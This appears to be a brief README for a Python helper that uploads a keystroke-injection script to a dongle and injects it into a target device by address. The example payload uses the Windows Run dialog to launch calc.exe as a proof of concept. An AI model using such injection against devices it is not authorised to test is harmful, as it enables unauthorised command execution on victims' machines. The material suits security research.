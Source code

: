 # Script Injection helper in Python

This helpers can be used to upload a script file to dongle's memory and directly start the injection as follows:

```
python script_inject.py -s /tmp/scripttest -i /dev/ttyACM1 -t "DD:47:xx:xx:xx"             
[+] Uploaded script:
script start
0001: press GUI r
0002: delay 20
0003: string calc.exe
0004: delay 20
0005: press ENTER
script end

[+] Injecting payload to DD:47:xx:xx:xx
```
